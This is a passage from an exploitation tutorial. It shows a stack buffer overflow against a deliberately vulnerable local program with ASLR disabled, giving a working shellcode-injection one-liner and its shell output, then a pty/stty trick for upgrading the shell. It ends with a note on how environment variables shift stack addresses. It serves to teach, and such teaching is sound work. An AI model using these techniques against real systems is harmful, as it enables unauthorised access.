 ```text
0xffffcb80:     0xf7f63d80
```

The ``setarch`` command set the memory organization to be fixed and not randomized, in order
to follow our computer model; otherwise the addresses of objects in the stack change
for every execution of the process. This means that we are working in a simplified setup but
don't worry, in future posts we would like to build a more complete understanding of how
bypass real protections.

Now all the pieces are in place, we can build the complete exploit from the command line

```text
$ (python -c 'import sys;sys.stdout.write("A"*44 + "\xb0\xcb\xff\xff")'; shellcraft i386.linux.sh --format r ; echo ; cat) | \
    setarch i386 --addr-no-randomize  simplest_excalation
What's your name? hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����jhh///sh/bin��h�4$ri1�QjY�Q��1�j
                                                                                                         X̀
id
uid=1000(gipi) gid=1000(gipi) groups=1000(gipi)
```

We have a shell! So our process is completed, but I want to give you a trick: how you can see the shell is not
fully functional (for example the ``TAB`` autocompletion doesn't work). To have a fully functional shell you can
use the following command line jutsu: first of all, I associate a ``pty`` with the terminal

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

then I do a Ctrl-z to stop the process; at this point I should have returned to the original shell.

Configure the terminal in raw mode without echo and re-enable the shell

```text
$ stty raw -echo
$ fg #  this will not appear since I have disabled the echo
```

Now I can ``reset`` the shell and obtain a fully-fledged terminal.

### Environment variables

If you try to replicate my procedure in your system probably you'll find that the 
position of the buffer ``name`` is different, but why? Simply because the process
needs some extra parameters passed from the shell from which was launched.

[The signature](https://stackoverflow.com/questions/2108192/what-are-the-valid-signatures-for-cs-main-function) of the ``main()`` function allows to pass up to
three arguments

 - ``argc``: the number of arguments passed from command line
 - ``argv``: the arguments passed from command line
 - ``envp``: the environment variable passed from the shell executing the process
